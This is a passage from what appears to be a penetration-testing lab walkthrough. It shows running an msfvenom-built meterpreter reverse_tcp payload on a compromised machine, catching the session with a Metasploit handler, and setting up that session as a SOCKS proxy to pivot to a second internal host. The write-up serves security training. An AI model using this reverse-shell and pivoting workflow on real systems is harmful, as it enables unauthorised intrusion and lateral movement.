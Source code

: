 ![16](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/16.png)

The above set of commands would have started the metasploit framework and configured the options for`exploit/multi/handler`module: - The payload is set to`linux/x64/meterpreter/reverse_tcp`(we generated this payload using **msfvenom**) - LHOST and LPORT are set to the same values we used for generating the payload via **msfvenom**.

Now the reverse TCP handler is running on the Kali instance, we can execute the payload binary on the compromised target machine:

**Command:**

```
./payload.bin
```

![16\_1](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/16\_1.png)

Check the terminal in which the reverse TCP handler was running:

![16\_2](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/16\_2.png)

Notice that we have received a meterpreter session! This will aid us to proceed with the exploitation.

**Step 17:** Checking the list of interfaces on the compromised target machine.

**Command:**

```
ifconfig
```

![17](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/17.png)

![17\_1](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/17\_1.png)

Notice that there are 2 interfaces (excluding the loopback interface) namely:`eth0`and`eth1`. And one of those is in the same network as the Kali machine. The other one is in another network.

**Step 18:** Using the meterpreter session to serve as a socks proxy.

As mentioned in the challenge description, the second machine to be exploited is accessible via the first machine (that is, [online-calc.com](http://online-calc.com)).

Now since we have access to the first target machine, we can easily access the second machine. But if there is some webapp running on that second machine, we can't access it directly, unless we have a proxy setup to relay the request via the compromised target. And that's what we will set up in this step!

Background the meterpreter session and check the meterpreter session identifier:

**Command:**

```
bg
sessions
```
